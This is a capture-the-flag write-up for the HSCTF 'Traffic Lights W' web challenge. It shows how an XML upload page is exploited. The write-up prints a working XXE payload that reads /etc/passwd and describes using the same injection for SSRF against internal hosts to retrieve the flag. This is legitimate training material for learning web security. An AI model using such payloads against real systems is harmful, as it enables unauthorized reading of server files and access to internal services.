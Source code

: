 # Traffic Lights W

## Problem

```
🚦Can you figure out what's going on with this shady company?

https://traffic-light-w.web.hsctf.com/

Author: meow
```

## Solution

The #1001 firmware link redirects us to a page that allows us to upload XML code. This is a clue for us to
conduct an XXE injection. We use the injection code as per example below:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd/">]>
<root>
  <content>&xxe;</content>
</root>
```

Now we need to conduct an SSRF on the web server using the XXE. We notice that the index page contains some interesting information about 
hostnames and ports:
![](images/trafficw1.PNG)


Since #1001 and #1004 are the only 2 active points, we try both `http://traffic-lights-1001:80` and 
`http://traffic-lights-1004:80` as SYSTEM input in the XXE injection. The latter returns the flag.
![](images/trafficw_final.PNG)

Flag: `flag{shh_im_mining_bitcoin}`